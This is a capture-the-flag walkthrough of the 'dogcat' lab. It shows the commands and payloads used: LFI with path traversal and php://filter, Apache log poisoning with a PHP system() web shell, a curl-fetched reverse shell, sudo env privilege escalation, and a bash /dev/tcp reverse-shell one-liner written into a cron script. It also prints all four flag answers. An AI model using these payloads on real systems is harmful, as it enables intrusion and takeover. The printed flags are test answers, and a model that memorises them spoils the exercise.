 # dogcat - Medium

```shell
nmap -T4 -p- -A -v 10.10.161.226

feroxbuster -u http://10.10.161.226 -w /usr/share/wordlists/dirb/common.txt -x php,html,bak,js,txt,json,docx,pdf,zip --extract-links --scan-limit 2 --filter-status 401,403,404,405,500 --silent

vim reverse-shell.php

python3 -m http.server
#transfer shell to victim machine using curl

nc -nvlp 4444

#we get reverse shell on visiting shell.php

pwd

find / -type f -name flag* 2>/dev/null

cat /var/www/flag2_QMW7JvaY2LvK.txt

sudo -l
#we can run env binary as root

sudo /usr/bin/env /bin/sh
#root shell

find / -type f -name flag* 2>/dev/null

cat /root/flag3.txt

ls -la /opt

ls -la /opt/backups

cat /opt/backups/backup.sh
#we can overwrite this to get reverse-shell

echo "#!/bin/bash\nbash -i >& /dev/tcp/10.10.161.226/5555 0>&1" > /opt/backups/backup.sh

#on attacker machine
nc -nvlp 5555
#we get reverse shell here
```

* Open ports & services:

  * 22 - ssh - OpenSSH 7.6p1 (Ubuntu)
  * 80 - http - Apache httpd 2.4.38 (Debian)

* We can start by enumerating the webpage for hidden directories.

* The webpage allows us to view photos of dogs and cats, using the 'view' parameter.

* Using ```feroxbuster```, we can figure out that the webpage has directories /cats and /dogs. Besides this, it has a /flag.php page as well, but it cannot be accessed directly.

* When we attempt to view the webpage using ```?view=flag.php```, we get an error message; so we will have to check for other ways to get LFI.

* Using ```?view=cat/../flag.php```, we get error messages - it shows that the code automatically adds '.php' to the end of the path - so it looks for the file 'flag.php.php'

* Futhermore, we cannot use LFI directly here, due to filters; so we can attempt to use other techniques to evade filters by experimenting in Burp Suite Repeater.

* Referring the ```HackTricks``` page for LFI payloads, we get a PHP payload using which we can view the PHP code:

  ```php://filter/convert.base64-encode/resource=index.php```

* Therefore, we can view the PHP source code using:

  ```?view=php://filter/convert.base64-encode/resource=dog```

* This gives us base64-encoded PHP code, and when decoded shows the PHP code for showing dog images.

* As the webpage checks for the strings "dog" or "cat" in the beginning, the request required to view source code for /index.php is:

  ```?view=php://filter/convert.base64-encode/resource=dog/../index```

* Checking the decoded code shows that there is another parameter ```ext``` which adds the default extension '.php', unless specified.

* Now, we can get flag 1 by viewing 'flag.php' similar to how we were able to view 'index.php' above.

* We can view '/etc/passwd' using the following request:

  ```?view=dog/../../../../etc/passwd&ext=```

* Now, we need to attempt to convert LFI to RCE - we can do so using log poisoning method.

* Using the following request, we can view the Apache log files:

  ```?view=dog/../../../../var/log/apache2/access.log&ext=```

* Now, using Burp Suite, we can capture the above request.

* Modify the request's User-Agent field to the value:

  ```<?php system($_REQUEST['c']);?>```

* Now, if we use the following request, we can view the processes running:

  ```?view=dog/../../../../var/log/apache2/access.log&ext=&c=ps```

* Using 'whoami' command similarly, we can see that we are the user 'www-data'.

* Now, we are unable to get reverse-shell using commands (as it's usually done); so we can attempt to transfer reverse-shell file on victim machine using ```curl```.

* Setup the Python http server on attacker machine, and execute the command ```curl http://10.10.161.226:8000/reverse-shell.php -o shell.php``` using RCE in victim machine.

* Now, setup listener and navigate to '/shell.php' - this gives us reverse shell on our listener.

* Now, searching for files with the name 'flag' in it gives flag 2.

* Using ```sudo -l```, we can see that the 'env' binary can be run as root without password.

* We can get exploit for the 'env' binary from GTFObins, and run exploit to get root shell.

* We can get flag 3 from the root directory.

* Now, checking the /opt directory, we have a backups folder inside - this contains a script and a .tar archive.

* The script seems to create an archive of /root/container, a folder which we cannot access directly.

* The .tar file is created recently as well, so we can assume this script to run as a cron job.

* We can overwrite the backup.sh script with a reverse-shell one-liner and setup listener on attacker machine.

* We get reverse-shell on our listener, and we can get flag4 from the /root directory.

```markdown
1. What is flag 1? - THM{Th1s_1s_N0t_4_Catdog_ab67edfa}

2. What is flag 2? - THM{LF1_t0_RC3_aec3fb}

3. What is flag 3? - THM{D1ff3r3nt_3nv1ronments_874112}

4. What is flag 4? - THM{esc4l4tions_on_esc4l4tions_on_esc4l4tions_7a52b17dba6ebb0dc38bc1049bcba02d}
```
